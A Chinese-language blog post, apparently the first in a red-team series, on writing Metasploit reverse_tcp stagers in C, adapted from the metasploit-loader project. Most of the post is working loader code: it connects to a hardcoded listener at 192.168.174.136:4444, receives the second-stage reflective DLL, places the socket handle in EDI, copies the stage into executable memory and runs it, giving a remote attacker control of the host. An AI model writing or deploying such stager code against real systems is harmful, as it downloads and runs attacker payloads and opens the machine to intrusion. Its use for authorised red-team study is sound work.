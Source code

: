 ```yaml
---
title: msf stagers开发不完全指北(一)
date: 2020-06-23 18:19:00
tags:
- msf
- 红队
- 工具
categories:
- 开发
---
```


# 采用c开发stagers

<!--more-->

## 前言

之前有写过一篇 [metasploit payload运行原理浅析(sockedi调用约定是什么)](https://www.cnblogs.com/Akkuman/p/12859091.html)，里面有提到以后了解这些东西后可以做的事情，其实包括但不限于自写stagers，扩展C2 实现。本系列将从之前这篇文章中获取到的原理性知识进行实践，一步步记录我在这个过程中踩到的坑与收获，这个系列可能会更新得比较慢，也可能会不定期鸽，希望大家能够一同学习，有什么错误的地方也欢迎大家来探讨指正。

## 前情提要

上面我们给出的文章讲到关于第一阶段与第二阶段的交互原理

简要概括一下，对于 reverse_tcp 的payload 来说，所给出的 payload 是第一阶段 (stagers)，然后它会发起 socket tcp 连接请求向远端请求第二阶段 (stages) ，这个阶段是一个反射 dll，然后把 socket fd (socket文件描述符) 放入 edi 寄存器，开始从起始地址执行第二阶段，第二阶段后续的操作会用到这个 socket fd，所以一开始需要传入，后面的关于这个 dll 具体运作以及为什么能直接从起始地址开始跑我们暂时不需要关心，这个在我上一篇文章中已有提及。

## 明确思路

上面的流程说的已经比较明白了（此篇文章里我将采用 [metasploit-loader](https://github.com/rsmudge/metasploit-loader/blob/master/src/main.c) 作为代码讲解）：

1. 向 msf 监听地址发起 tcp 请求

2. 获取 stages

3. 将 socket fd 放入寄存器 edi

4. 从起始地址开始执行 stages



### 发起tcp请求stages

先贴代码

首先我们需要创建一个socket连接

```c
/* 错误处理 */
void punt(SOCKET my_socket, char * error) {
	printf("Bad things: %s\n", error);
	closesocket(my_socket);
	WSACleanup();
	exit(1);
}

...

WSADATA	wsaData;
WORD 		wVersionRequested;

wVersionRequested = MAKEWORD(2, 2);

if (WSAStartup(wVersionRequested, &wsaData) < 0) {
    printf("ws2_32.dll is out of date.\n");
    WSACleanup();
    exit(1);
}

struct hostent *		target;
struct sockaddr_in 	sock;
SOCKET 			my_socket;
char* targetip = "192.168.174.136"
int port = 4444

/* 创建socket */
my_socket = socket(AF_INET, SOCK_STREAM, 0);
if (my_socket == INVALID_SOCKET)
    punt(my_socket, "Could not initialize socket");

/* 解析targetip*/
target = gethostbyname(targetip);
if (target == NULL)
    punt(my_socket, "Could not resolve target");


/* 准备tcp连接相关信息 */
memcpy(&sock.sin_addr.s_addr, target->h_addr, target->h_length);
sock.sin_family = AF_INET;
sock.sin_port = htons(port);

/* 连接 */
if ( connect(my_socket, (struct sockaddr *)&sock, sizeof(sock)) )
    punt(my_socket, "Could not connect to target");
```

这部分代码就是和我们的 msf 监听地址建立 socket 连接

接下来关于stages有点需要说明的。

stages结构：

- 开头 4byte 是后续的 tcp 包长度
- 4byte 后紧跟的是一个 dll，也就是一个pe文件

那么我们按照这个方式去读

```c
int count = recv(my_socket, (char *)&size, 4, 0);
if (count != 4 || size <= 0)
    punt(my_socket, "read a strange or incomplete length value\n");
```

读出后面的 dll 数据包长度

然后我们开始读取 dll

```c
/* 接收指定长度的数据 */
int recv_all(SOCKET my_socket, void * buffer, int len) {
	int    tret   = 0;
	int    nret   = 0;
	void * startb = buffer;
	while (tret < len) {
		nret = recv(my_socket, (char *)startb, len - tret, 0);
		startb += nret;
		tret   += nret;

		if (nret == SOCKET_ERROR)
			punt(my_socket, "Could not receive data");
	}
	return tret;
}

buffer = VirtualAlloc(0, size + 5, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
if (buffer == NULL)
    punt(my_socket, "could not allocate buffer\n");

/* 把 socket fd 放入 edi 寄存器，注意这里的 socket 句柄需要取到句柄指向的那个数据，而不是句柄指针
	   BF 78 56 34 12     =>      mov edi, 0x12345678 */
buffer[0] = 0xBF;

/* 构造上面的机器码 */
memcpy(buffer + 1, &my_socket, 4);

/* 把读取出来的数据放到 buffer 后面 */
count = recv_all(my_socket, buffer + 5, size);
```

这里需要注意的地方是把 socket fd 放入 edi，这个过程是比较重要的，具体的原理我在上一篇文章有提到。

## 执行stages

现在我们只需要像之前执行 shellcode 那样执行即可

```c
/* 把buffer强转为一个函数去调用 */
function = (void (*)())buffer;
function();

```

然后把这些代码组合起来进行编译

## 编译

编译需要注意的点是：**payload必须对应**

比如32位的payload必须编译为32位的，相应的64位必须编译为64位
